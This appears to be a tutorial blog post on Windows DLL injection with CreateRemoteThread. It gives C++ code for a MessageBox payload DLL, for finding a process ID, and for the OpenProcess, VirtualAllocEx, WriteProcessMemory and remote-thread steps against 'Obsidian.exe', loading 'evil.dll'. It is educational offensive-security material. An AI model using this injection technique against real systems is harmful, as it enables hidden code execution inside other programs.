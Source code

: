 ```yaml
---
title: Windows DLL Injection using CreateRemoteThread
layout: post
---
```


# Building the injector
---
When it comes to DLL injection, there are many ways of doing it, such as using the WindowsAPI, or even undocumented [NTAPI](http://undocumented.ntinternals.net/) functions such as `NtCreateThread`.

In this example I will be using C++ to inject our DLL into a process using the `CreateRemoteThread` function.

## Payload
---
Our payload is a simple C++ DLL, which calls the `MessageBox` windows API call, to make a textbox appear when run.

```cpp
#define WIN32_LEAN_AND_MEAN
#include <windows.h>
#include "pch.h"

extern "C" __declspec(dllexport)
DWORD WINAPI MessageBoxThread(LPVOID lpParam) {
    MessageBoxA(NULL, "Test", "hello", NULL);
    return 0;
}

extern "C" __declspec(dllexport)
BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD ul_reason_for_call,
    LPVOID lpReserved) {
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
        CreateThread(NULL, NULL, MessageBoxThread, NULL, NULL, NULL);
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```


## Retrieving the process id
----

For us to be able to inject our DLL into a process, we need to get the PID (process id) of the process.  
  
The way that this can be done. Is by taking a snapshot of the current processes on the system, comparing the name of the exe file to the one we provide, and returning the pid of the process with the matching executable name.

![pid](https://imgur.com/PM6qzpo.png)

```cpp
int getPID(const char* pName) {

	HANDLE snapshot;
	PROCESSENTRY32 pe;
	int pid = 0;
	BOOL result;

	snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);
	if (snapshot == INVALID_HANDLE_VALUE) return 0;

	pe.dwSize = sizeof(pe);
	result = Process32First(snapshot, &pe);

	while (result) {
		if (strcmp(pName, pe.szExeFile) == 0) {
			pid = pe.th32ProcessID;
			break;
		}
		result = Process32Next(snapshot, &pe);
	}
	CloseHandle(snapshot);
	return pid;
}
```

If we entered "Calculator.exe". The `getPID()` function would return `11448` back to the main function.


## Making the CreateRemoteThread()  call
---

![dll](https://rioasmara.files.wordpress.com/2020/09/dll.png)

First of all we need to get the process handle, this can be done with `OpenProcess`. The following code opens an existing local process object, and gives us the `PROCESS_ALL_ACCESS` access right to the process.

```cpp
	char process[] = "Obsidian.exe";
	DWORD pid = getPID(process);
	const char* dll = "C:\\Windows\\Tasks\\evil.dll";
	size_t sz = strlen(dll);

	hProc = OpenProcess(PROCESS_ALL_ACCESS, TRUE, pid);
```

Next, we must obstain the address of the `LoadLibrary` function using the `kernel32.dll` library.

```c++
	HMODULE hModule = GetModuleHandle("kernel32.dll");
	LPVOID lpStart = GetProcAddress(hModule, "LoadLibraryA");
```

Following that, the allocation of a new memory region in the process memory, with the `MEM_COMMIT` and `MEM_REVERSE` allocation types, which allow us to reserve and commit memory pages in the target process.

```cpp
	lpBase = VirtualAllocEx(hProc, NULL, sz, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```

After that, write to the processes memory space.

```cpp

WriteProcessMemory(hProc, lpBase, dll, sz, NULL);
```

`hProc` - The handle to the process memory to be modified <br />
`lpBaseAddres` - Pointer to the base address in process <br />
`lpBuffer` - Pointer to the buffer that contains the DLL (C:\\path\\to.dll) <br />
`nSize` - Number of bytes to be written (size of DLL path) <br />

Finally, we create the remote thread which injects the DLL into the targets address space.

```cpp
HANDLE rThread = CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE)lpStart, lpBase, 0, NULL);
```

If this succeeds, we can close the handle to the proccess:

```cpp
	if (rThread == NULL) {
		std::cout << "[!] CreateRemoteThread Failed.";
	}
	else {
		std::cout << "[+] CreateRemoteThread Created.";
		CloseHandle(hProc);
	}
```

Upon execution of the injector, we see the CreateRemoteThread() is created and the DLL is executed.

![exec](https://imgur.com/tkH4Y7z.png)

We can also attach x64dbg and see the DLL being loaded and executed.

![debug](https://imgur.com/Tsy8yVy.png)
